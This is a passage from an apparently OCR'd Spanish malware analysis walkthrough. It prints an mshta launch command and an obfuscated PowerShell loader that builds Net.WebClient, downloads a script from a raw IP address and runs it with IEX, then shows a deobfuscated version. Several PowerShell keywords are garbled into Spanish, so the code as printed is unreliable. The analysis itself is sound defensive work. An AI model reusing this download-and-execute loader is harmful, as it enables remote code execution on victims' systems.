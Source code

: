 ```jsx
C:/Windows/System32/mshta.exe C:/Users/roberto/Desktop/Ps1.hta
```

Este primer comando ejecuta **mshta.exe** con el argumento C:/Users/roberto/Desktop/Ps1.hta. Este argumento se utiliza para abrir y ejecutar el archivo HTA ubicado en el sistema de Roberto.

```jsx
C:/Windows/System32/WindowsPowerShell/v1. 0 /powershell.exe función  H1 ( $i ) { $r = '' ; for ( $n = 0 ; $n -Lt $i .LengtH; $n += 2 ){ $r += [cHar][ int ]( '0x' + $i . Subcadena ( $n , 2 ))} devolver  $r }; $H2 = ( nuevo - objeto ( '{1}{0}{2}' -f 'WebCL' , 'net.' , 'ient' )); $H3 = H1'446f776E' ; $H4 = H1 '6C6f' ; $H5 = H1 '616473747269' ; $H6 = H1 '6E67' ; $H7 = $H3 + $H4 + $H5 + $H6 ; $H8 = $H2 . $H7 ( 'http://193.142.58.23/Server.txt' );iEX $H8
```

El segundo comando ejecuta un script de PowerShell. El código está ofuscado e intenta ocultar el verdadero propósito del código. A continuación se muestra el código desenfuscado

```jsx
función  H1 ( $i ) {
     $r = '' 
    for ( $n = 0 ; $n -lt $i .Longitud; $n += 2 ) {
         $r += [char][ int ]( '0x' + $i . Subcadena ( $n , 2 ))
    }
     return  $r
 }

 $H2 = ( nuevo - objeto ( '{1}{0}{2}' -f 'WebCL' , 'net.' , 'ient' ) )
 $H3 = H1 '446f776E' 
$H4 = H1 '6C6f' 
$H5 = H1 '616473747269' 
$H6 = H1 '6E67' 
$H7 = $H3 + $H4 + $H5 + $H6 
$H8 = $H2 . $H7 ( 'http://193.142.58.23/Server.txt' )
iEX $H8
```

El script contiene una función llamada H1($i) que recibe una cadena de entrada "$i", la interpreta como valores hexadecimales, los convierte a caracteres ASCII y los concatena.

Luego, crea un nuevo objeto llamado $H2 utilizando el cmdlet "New-Object". Sin embargo, los parámetros 'WebCL', 'net.' y 'ient' se concatenan para formar el nombre de clase de PowerShell "System.Net.WebClient".

En las siguientes líneas, el script llama a la función H1 cuatro veces con diferentes cadenas hexadecimales. Estas variables se utilizarán para formar una cadena que represente un comando de función.

Después de una serie de asignaciones y operaciones de ofuscadas, se obtiene el siguiente comando.

```jsx
( Nuevo - Objeto ( 'Net.WebClient' )). Cadena de descarga ( 'http://193.142.58.23/Server.txt' ).
```

Este comando almacena la variable “$H8”. El script intenta descargar y ejecutar código PowerShell desde la URL " http://193.142.58.23/Server.txt ". El verdadero contenido del archivo "Server.txt" se desconoce en el script proporcionado, pero puede ser un archivo malicioso.

A continuación revisaremos los registros:
